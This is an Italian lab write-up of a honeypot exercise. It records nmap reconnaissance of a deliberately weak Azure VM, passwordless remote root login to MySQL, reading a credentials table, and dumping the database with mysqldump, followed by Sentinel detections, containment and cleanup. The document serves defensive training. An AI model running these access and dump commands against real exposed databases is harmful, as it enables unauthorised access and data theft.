



# Attacco e Detection — Evidenza tecnica dettagliata

## 1. Ricognizione

Scansione delle porte esposte dalla VM honeypot (dalla Kali Linux, verso l'IP pubblico della VM):

```bash
$ nmap -sV -O -p 3306,3389 74.241.132.174
```

```
PORT     STATE SERVICE       VERSION
3306/tcp open  mysql         MySQL 8.0.46
3389/tcp open  ms-wbt-server

Running (JUST GUESSING): Microsoft Windows 11|10 (90%)
OS CPE: cpe:/o:microsoft:windows_11
```

**Risultato**: identificati MySQL 8.0.46 e sistema operativo Windows 11 con buona confidenza (90%), senza alcuna autenticazione necessaria per ottenere queste informazioni.

## 2. Exploitation

Tentativo di connessione diretta a MySQL come root, sfruttando la configurazione vulnerabile (utente root senza password, accessibile da remoto):

```bash
$ mysql -h 74.241.132.174 -u root --skip-password --skip-ssl
```

**Risultato**: accesso immediato, senza alcun brute force necessario. Il semplice fatto che il database fosse esposto con un account amministrativo privo di password ha reso l'exploitation istantanea — uno degli scenari di breach più comuni e più facilmente prevenibili nel mondo reale.

## 3. Scoperta dati (Discovery)

```sql
SHOW DATABASES;
USE corpdb;
SHOW TABLES;
SELECT * FROM credentials;
SELECT * FROM payments;
```

Individuata la tabella `credentials` con 5 voci di credenziali in chiaro per servizi interni fittizi (pannello admin, FTP, backup, email, VPN).

## 4. Esfiltrazione

```bash
$ mysqldump -h 74.241.132.174 -u root --skip-password --skip-ssl corpdb > corpdb_esfiltrato.sql
```

Estratto dell'output (dati fittizi):
```sql
INSERT INTO `credentials` VALUES
(1,'Admin Portal','admin','Winter2026!','accesso pannello amministrazione interno'),
(2,'FTP Server','ftpuser','ftp_P@ss123','server file aziendale'),
...
```

**Risultato**: database intero (struttura + dati) esportato localmente sulla macchina attaccante in pochi secondi, senza che nessun controllo di sicurezza a livello di database lo impedisse.

## 5. Detection — Incidenti generati automaticamente

Entrambe le regole di detection configurate in Microsoft Sentinel si sono attivate correttamente:

### Incidente 1: Accesso alla tabella credentials sull'honeypot MySQL
- **Gravità**: Alta
- **Categoria**: Accesso a credenziali
- **Prima attività rilevata**: 25 ott 2026, 15:37:48
- **Ultima attività rilevata**: 26 ott 2026, 13:28:44
- **Eventi registrati**: query `SELECT * FROM credentials`, `SELECT service_name, username FROM credentials`, `SHOW INDEX FROM credentials`

### Incidente 2: Query esplorative sul database honeypot
- **Gravità**: Media
- **Categoria**: Individuazione
- **Eventi registrati**: `SHOW TABLES FROM corpdb`

**Osservazione sulla timeline**: gli incidenti mostrano attività distribuita su due sessioni separate (pomeriggio del 25 ottobre e mattina del 26 ottobre) — pattern realistico di un attaccante che ritorna più volte sul bersaglio compromesso per continuare l'esplorazione, piuttosto che un singolo evento isolato.





Dettaglio del secondo incidente ("Query esplorative sul database honeypot"), con la spiegazione automatica generata da Microsoft Defender ("Cos'è successo") e la query raw rilevata (`SHOW TABLES FROM corpdb`):



## 6. Contenimento

Verifica che la chiusura delle regole NSG abbia effettivamente isolato la VM:

```bash
$ nmap -Pn -p 3306,3389 74.241.132.174
```

```
PORT     STATE    SERVICE
3306/tcp filtered mysql
3389/tcp filtered ms-wbt-server
```

**Risultato**: nessuna risposta dalle porte precedentemente esposte — isolamento confermato.

## 7. Eradicazione

Azioni correttive applicate per riportare il sistema a uno stato sicuro:
- Rimozione dell'account amministratore locale debole creato per il test
- Disattivazione dell'account Guest
- Riattivazione del firewall di Windows su tutti i profili
- Rimozione dell'utente `root@'%'` senza password da MySQL (`DROP USER`)
